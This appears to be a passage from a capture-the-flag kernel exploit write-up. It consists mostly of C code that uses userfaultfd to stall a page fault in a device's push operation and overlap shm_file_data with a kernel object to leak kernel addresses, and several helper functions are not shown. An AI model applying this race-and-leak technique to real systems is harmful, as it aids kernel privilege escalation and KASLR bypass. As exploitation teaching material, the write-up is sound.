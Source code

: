```shm_file_data.ns``` trùng offset với ```Element.value``` từ đó ta leak được data base -> leak được text base.
char *addr = 0x117117000;    // memory region supervisored
const unsigned long len = PAGE*0x10;  // memory length
void register_userfaultfd_and_halt(){
    log_info("Registering userfaultfd...");

    long uffd;  // userfaultfd file descriptor
    pthread_t thr; // ID of thread that handles page fault and continue exploit in another kernel thread
    struct uffdio_api uffdio_api_var;
    struct uffdio_register uffdio_register_var;
    int s;

    uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK); // create userfaultfd file descriptor
    if(uffd==-1){
        log_err("userfaultfd");
        exit(-1);
    }
    // enable uffd object via ioctl(UFFDIO_API)
    uffdio_api_var.api = UFFD_API ;
    uffdio_api_var.features = 0;
    if(ioctl(uffd, UFFDIO_API, &uffdio_api_var) == -1){
        log_err("ioctl-UFFDIO_API");
        exit(-1);
    }
    log_info("Mapping...");
    addr = mmap(addr, len, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0); // set MAP_FIXED for memory to be mmaped on exactly specified addr.
    log_info("Mapped");
    if(addr == MAP_FAILED){
        log_err("mmap");
        exit(-1);
    }
    // specify memory region handled by userfaultfd via ioctl(UFFDIO_REGISTER)
    uffdio_register_var.range.start = addr;
    uffdio_register_var.range.len = PAGE*0x10;
    uffdio_register_var.mode = UFFDIO_REGISTER_MODE_MISSING;
    if(ioctl(uffd, UFFDIO_REGISTER, &uffdio_register_var) == -1){
        log_info("ioctl-UFFDIO_REGISTER");
        exit(-1);
    }    
    s = pthread_create(&thr, NULL, fault_handler_thread, (void*)uffd); // create thread
    if(s){
        log_err("pthread_create");
        exit(s);
    }
    log_info("Registered userfaultfd");
}
//pagefalut
//1 page = 0x1000 bytes;
// mmap(0x1337000,...., R & W) -> 0x1337000
//  *(char *)0x1337000 = 0 -> pagefalut -> mmap address -> *(char *)0x1337000 = 0
//                          *----------------------------* -> kernel
// userfaultfd
// *(char *)0x1337000 = 0 -> pagefalut -> userfaultfd -> mmap address -> *(char *)0x1337000 = 0
//                                          |--->  mprotect(0x13337000, READONLY)
int main(int argc, char **argv,char **envp){
    dev_open();
    register_userfaultfd_and_halt();
    sleep(1);
    call_shmat(); // kalloc and kfree shm_file_data structure at kmalloc-32
    log_info("Trying push....");
    _push(addr); // invoke fault
    return 0;
```